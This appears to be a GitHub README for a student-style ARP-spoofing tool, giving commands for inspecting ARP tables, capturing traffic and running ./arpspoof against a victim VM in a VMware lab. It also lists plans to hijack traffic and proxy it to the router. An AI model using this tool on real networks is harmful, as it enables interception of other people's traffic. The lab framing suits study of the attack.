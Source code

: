 
# ARP-spoofing

## Experiments

Watch arp table:

```
watch arp -a
```

Clear arp table:

```
arp -ad
```

Listen arp req/res:

```
tcpdump -nnti en0 arp or icmp
```

Ping everybody on the network:

```
BROADCAST_ADDR=$(ip addr show en0 | grep 'inet .* brd ' | head -1 | sed -e 's/^.* brd \([0-9\.]*\) .*$/\1/')
ping ${BROADCAST_ADDR}
```

## Run arp spoofing

```
make re
```

Infra on vmware:
- 2 vms (attacker: 172.16.42.128, victim: 172.16.42.129)
- 1 host/router (172.16.42.1)
- 1 shared network (virtual)

```
# on 3 machines
tcpdump -nnti <iface> arp
```

```
# on victim machine
watch arp
```

```
# on attacker machine
# usage: ./arpspoof <spoofed-ip> <target-ip> <if>
./arpspoof 172.16.42.1 172.16.42.129 ens37
```

See what happens in `arp` output of the victim ;)

## Debug

https://hpd.gasmi.net/

## Improvements

- missing checks un `datagram_unserialize()` function
- maintain a list of victim and broadcast attack to every machines
- hijack network traffic and become a proxy to the router ^^
- ipv6
